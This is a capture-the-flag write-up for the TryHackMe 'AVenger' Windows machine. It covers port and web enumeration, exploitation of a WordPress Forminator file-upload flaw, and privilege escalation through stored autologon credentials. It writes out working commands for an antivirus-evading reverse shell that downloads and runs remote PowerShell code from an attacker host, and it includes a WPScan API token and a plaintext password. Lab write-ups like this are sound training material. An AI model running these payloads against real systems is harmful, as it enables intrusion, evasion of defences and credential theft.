# AVenger



## Ports Scanning

For this machine we have to use a more stealth command due AV enable.

```bash
nmap -sC -sV --min-rate 1000 10.10.57.181 -oN port_scan.txt

Nmap scan report for 10.10.57.181
Host is up (0.042s latency).
Not shown: 992 closed tcp ports (reset)
PORT     STATE SERVICE       VERSION
80/tcp   open  http          Apache httpd 2.4.56 (OpenSSL/1.1.1t PHP/8.0.28)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.5K  2022-06-15 16:07  applications.html
| 177   2022-06-15 16:07  bitnami.css
| -     2023-04-06 09:24  dashboard/
| 30K   2015-07-16 15:32  favicon.ico
| -     2023-06-27 09:26  gift/
| -     2023-06-27 09:04  img/
| 751   2022-06-15 16:07  img/module_table_bottom.png
| 337   2022-06-15 16:07  img/module_table_top.png
| -     2023-06-28 14:39  xampp/
|_
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Index of /
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
443/tcp  open  ssl/http      Apache httpd 2.4.56 (OpenSSL/1.1.1t PHP/8.0.28)
| http-ls: Volume /
| SIZE  TIME              FILENAME
| 3.5K  2022-06-15 16:07  applications.html
| 177   2022-06-15 16:07  bitnami.css
| -     2023-04-06 09:24  dashboard/
| 30K   2015-07-16 15:32  favicon.ico
| -     2023-06-27 09:26  gift/
| -     2023-06-27 09:04  img/
| 751   2022-06-15 16:07  img/module_table_bottom.png
| 337   2022-06-15 16:07  img/module_table_top.png
| -     2023-06-28 14:39  xampp/
|_
|_http-server-header: Apache/2.4.56 (Win64) OpenSSL/1.1.1t PHP/8.0.28
| tls-alpn: 
|_  http/1.1
| http-methods: 
|_  Potentially risky methods: TRACE
| ssl-cert: Subject: commonName=localhost
| Not valid before: 2009-11-10T23:48:47
|_Not valid after:  2019-11-08T23:48:47
|_http-title: Index of /
|_ssl-date: TLS randomness does not represent time
445/tcp  open  microsoft-ds?
3306/tcp open  mysql         MariaDB 5.5.5-10.4.28
| mysql-info: 
|   Protocol: 10
|   Version: 5.5.5-10.4.28-MariaDB
|   Thread ID: 10
|   Capabilities flags: 63486
|   Some Capabilities: ODBCClient, Support41Auth, SupportsLoadDataLocal, Speaks41ProtocolNew, ConnectWithDatabase, SupportsCompression, SupportsTransactions, IgnoreSpaceBeforeParenthesis, FoundRows, LongColumnFlag, InteractiveClient, IgnoreSigpipes, DontAllowDatabaseTableColumn, Speaks41ProtocolOld, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: Nw207dp*|Vws\QbyX-w1
|_  Auth Plugin Name: mysql_native_password
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=gift
| Not valid before: 2025-07-23T20:24:16
|_Not valid after:  2026-01-22T20:24:16
| rdp-ntlm-info: 
|   Target_Name: GIFT
|   NetBIOS_Domain_Name: GIFT
|   NetBIOS_Computer_Name: GIFT
|   DNS_Domain_Name: gift
|   DNS_Computer_Name: gift
|   Product_Version: 10.0.17763
|_  System_Time: 2025-07-24T20:25:04+00:00
|_ssl-date: 2025-07-24T20:25:13+00:00; +1s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Hosts: localhost, www.example.com; OS: Windows; CPE: cpe:/o:microsoft:windows

```



## Web Enumeration

<figure><img src="../../../.gitbook/assets/image (319).png" alt=""><figcaption></figcaption></figure>



If we try to enter in the `gift/` directory, the domain will change in this:

<figure><img src="../../../.gitbook/assets/image (320).png" alt=""><figcaption></figcaption></figure>

add this domain to `/etc/hosts` to view the site.

Try to enumerate with dir/file discovering.

{% code overflow="wrap" %}
```bash
gobuster dir -u http://avenger.tryhackme/gift/ -w /usr/share/wordlists/SecLists_custom/raft-large-directories.txt -b 403,404

/admin                (Status: 302) [Size: 0] [--> http://avenger.tryhackme/gift/wp-admin/]
/wp-content           (Status: 301) [Size: 357] [--> http://avenger.tryhackme/gift/wp-content/]
/wp-admin             (Status: 301) [Size: 355] [--> http://avenger.tryhackme/gift/wp-admin/]
/wp-includes          (Status: 301) [Size: 358] [--> http://avenger.tryhackme/gift/wp-includes/]
```
{% endcode %}

### Wordpress Login Brute Forcing

These route bring you to `wp-login` portal.

<figure><img src="../../../.gitbook/assets/image (321).png" alt=""><figcaption></figcaption></figure>

Checking with wafw00f tool we can view that the site not has a WAF enabled.

```bash
wafw00f http://avenger.tryhackme/gift/wp-login.php

[*] Checking http://avenger.tryhackme/gift/wp-login.php
[+] Generic Detection results:
[-] No WAF detected by the generic detection # <--
[~] Number of requests: 7
```

Trying to enter with a admin:admin credentials we can notice that a message appair, tell us that the user admin exists.

<figure><img src="../../../.gitbook/assets/image (322).png" alt=""><figcaption></figcaption></figure>

So, knowing that the site not has WAF enabled and we have already know a user valid, we could do a brute force to guessing the password of admin user.

Nothing found :(

### WPScan

Try to run e WPScan to detect some vulnerability.

{% code overflow="wrap" %}
```bash
wpscan --url http://avenger.tryhackme/gift/ --api-token eVAkNLx5URNVNRP2xj1Uxon9CWFslz5Aas8bWb5jcO8 --random-user-agent -v
```
{% endcode %}

From this we can notice that the File Upload is managed by Forminator Plugin. That reading from readme of the plugin is not updated.

<figure><img src="../../../.gitbook/assets/image (324).png" alt=""><figcaption></figcaption></figure>

Searching online there are some vulnerabilities, but in particulary there is a Unauthentication File Upload and RCE.

{% embed url="https://www.exploit-db.com/exploits/51664" %}

If we upload a file in the form we can see this message.

<figure><img src="../../../.gitbook/assets/image (327).png" alt=""><figcaption></figcaption></figure>

This make us think that any files will upload a person will open it. So, we can upload a file to establish a revshell.

### Forminator Plugin RCE - AV Bypass

We can consider that the Windows Server machine has AV Windows Defender enabled.

And if the upload a simple file with a rev shell, this won't works.

Reading this article, we have a method to bypass the AV.

{% embed url="https://systemweakness.com/evade-windows-defender-reverse-shell-detection-6fa9f5eee1d1" %}

{% content-ref url="../../../pt/executive-pt/post-exploitation/shells/av-bypass-shell.md" %}
[av-bypass-shell.md](../../../pt/executive-pt/post-exploitation/shells/av-bypass-shell.md)
{% endcontent-ref %}

Follow the above pages we obtained the reverse shell bypassing Windows Defender.

Create the encoded RevShell to host in a Http server.&#x20;

```bash
LHOST=10.23.52.142
LPORT=9009
rshell=shell.txt
pwsh -c "iex (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1');powercat -c $LHOST -p $LPORT -e cmd.exe -ge" > /tmp/$rshell
```

```bash
python3 -m http.server 80
```

Now create the .bat file that will be open by a support user.

```bash
LHOST=10.23.52.142
LPORT_web=80
rshell=shell-9009.txt
echo START /B powershell -c "\$code=(New-Object System.Net.Webclient).DownloadString('http://${LHOST}:${LPORT_web}/${rshell}');iex 'powershell -E \$code'" >/tmp/backup.bat 
```

Lastly start a listener

```bash
rlwrap nc -nlvp 9009
```

Upload the file and when it will be open we will obtain a RevShell.

<figure><img src="../../../.gitbook/assets/image (314).png" alt=""><figcaption></figcaption></figure>

Now we can print the user flag.

```powershell
more C:\Users\hugo\Desktop\user.txt
```



## Privilege Escalation

During the local windows enumeration, we noticed that the user hugo is in the Administrator group

```powershell
net localgroup administrators

Members
------------------------
Administrator
hugo
```

Check if there are some saved credentials in the Auto logon reg keys.

```
reg query "HKLM\SOFTWARE\Microsoft\Windows NT\Currentversion\Winlogon"
```

We found hugo's credential . With this creds we can logon via RDP and run Powershell as administrator and get the root flag.

```bash
xfreerdp3 /v:10.10.26.184 /u:hugo /p:SurpriseMF123!
```

<figure><img src="../../../.gitbook/assets/image (4) (1) (1) (1) (1) (1) (1) (1).png" alt=""><figcaption></figcaption></figure>



